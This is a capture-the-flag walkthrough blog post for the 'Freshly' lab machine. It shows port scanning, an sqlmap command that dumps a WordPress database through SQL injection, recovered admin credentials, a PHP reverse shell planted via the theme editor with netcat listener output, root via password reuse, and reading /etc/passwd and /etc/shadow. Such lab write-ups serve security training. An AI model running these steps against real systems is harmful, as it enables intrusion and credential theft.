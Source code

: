 ```yaml
---
layout: blog_item
title: "Freshly Walkthrough"
date: "2015-06-14"
author: Arr0way
description: 'Freshly - Walkthrough Guide'
categories: [walkthroughs]
tags:
- CTF
---
```


<div class="coffee-rating">
<table>
      <tbody>
        <tr>
           <td>
               <p><code>Coffee Difficulty Rating:</code></p>
           </td>
           <td>
               <p><i class="fa fa-coffee"></i></p>
           </td>
        </tr>
      </tbody>
</table>
</div>

* list element with functor item
{:toc}

## Author Description

The goal of this challenge is to break into the machine via the web and find the secret hidden in a sensitive file. If you can find the secret, send me an email for verification.

### Port Scanning

{% highlight bash %}

nmap -v -p 1-65535 -sV -O -sT 10.0.1.109

{% endhighlight %}


### Service Enumeration

<div class="mobile-side-scroller">
<table>
  <thead>
    <tr>
      <th>Port</th>
      <th>Service</th>
      <th>Version Detection</th>
    </tr>
  </thead>
      <tbody>
        <tr>
           <td>
               <pc><p><code>TCP: 80</code></p></pc>
           </td>
           <td>
               <pc><p>HTTP</p></pc>
           </td>
           <td>
               <pc><p>64 Apache httpd 2.4.7 ((Ubuntu))</p></pc>
           </td>
        </tr>

        <tr>
           <td>
               <pc><p><code>TCP: 443</code></p></pc>
           </td>
           <td>
               <pc><p>HTTPS</p></pc>
           </td>
           <td>
               <pc><p>Apache httpd</p></pc>
           </td>
        </tr>

        <tr>
           <td>
               <pc><p><code>TCP: 8080</code></p></pc>
           </td>
           <td>
               <pc><p>HTTP</p></pc>
           </td>
           <td>
               <pc><p>Apache httpd</p></pc>
           </td>
        </tr>
        </tbody>

</table>
</div>

### HTTP Enumeration

Enumeration of port 80, discovered <code>login.php</code>:

![dirbuster](/img/blog/freshly/dirbuster.png)

![login form sqli](/img/blog/freshly/login.png)

## SQL Injection  

The discovered form was vulnerable to a time-based [SQL injection](/penetration-testing/web-app/sql-injection/), SQLMap was used to expose the following databases:


{% highlight bash %}

available databases [7]:
[*] information_schema
[*] login
[*] mysql
[*] performance_schema
[*] phpmyadmin
[*] users
[*] wordpress8080

{% endhighlight %}

SQLMap was used to dump the **wordpress8080** database:


{% highlight bash %}

sqlmap -o -u "http://10.0.1.109/login.php" --forms -D wordpress8080 -T users --risk 1 --dbms=mysql --dump

{% endhighlight %}

Discovered credentials:

{% highlight bash %}

Database: wordpress8080
Table: users
[1 entry]
+----------+---------------------+
| username | password            |
+----------+---------------------+
| admin    | SuperSecretPassword |
+----------+---------------------+

{% endhighlight %}

## Wordpress - Reverse PHP Shell

Wordpress was accessible on port <code>443</code> and port <code>8080</code>. Authentication was successful using the discovered credentials and a PHP reverse shell was introduced to the sites source code via the wordpress theme editor.

<div class="mobile-side-scroller">
<table>
  <thead>
    <tr>
      <th>Username</th>
      <th>Password</th>
    </tr>
  </thead>
      <tbody>
        <tr>
           <td>
               <pc><p><b>admin</b></p></pc>
           </td>
           <td>
               <pc><p><code>SuperSecretPassword</code></p></pc>
           </td>
        </tr>
      </tbody>

</table>
</div>

![wordpress reverse php shell](/img/blog/freshly/wordpress-php-shell.png)

A reverse shell successfully connected back:

{% highlight bash %}

[root:~]# nc -n -v -l -p 443           
listening on [any] 443 ...
connect to [10.0.1.110] from (UNKNOWN) [10.0.1.109] 37912
Linux Freshly 3.13.0-45-generic #74-Ubuntu SMP Tue Jan 13 19:37:48 UTC 2015 i686 i686 i686 GNU/Linux
 13:26:49 up 46 min,  0 users,  load average: 0.00, 0.01, 0.46
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$

{% endhighlight %}


## Privilege Escalation

Account credential reuse from the Wordpress admin password <code>SuperSecretPassword</code> allowed <code>su -</code> to escalate privileges to root.

{% highlight bash %}

$ python -c 'import pty;pty.spawn("/bin/bash")'
daemon@Freshly:/$ id
id
uid=1(daemon) gid=1(daemon) groups=1(daemon)

daemon@Freshly:/$ su -
su -
Password: SuperSecretPassword

root@Freshly:~# id
id
uid=0(root) gid=0(root) groups=0(root)

{% endhighlight %}

## Post Exploitation Enumeration  

The file <code>/etc/passwd</code> contained the text:

{% highlight bash %}

root@Freshly:/# tail -n 5 /etc/passwd
tail -n 5 /etc/passwd
user:x:1000:1000:user,,,:/home/user:/bin/bash
mysql:x:103:111:MySQL Server,,,:/nonexistent:/bin/false
candycane:x:1001:1001::/home/candycane:
# YOU STOLE MY SECRET FILE!
# SECRET = "NOBODY EVER GOES IN, AND NOBODY EVER COMES OUT!"

{% endhighlight %}

Additionally the file <code>/etc/shadow</code> had incorrect permissions allowing a non privileged user read access, allowing for offline password cracking using Hashcat / JTR.

Thanks for the VM :)
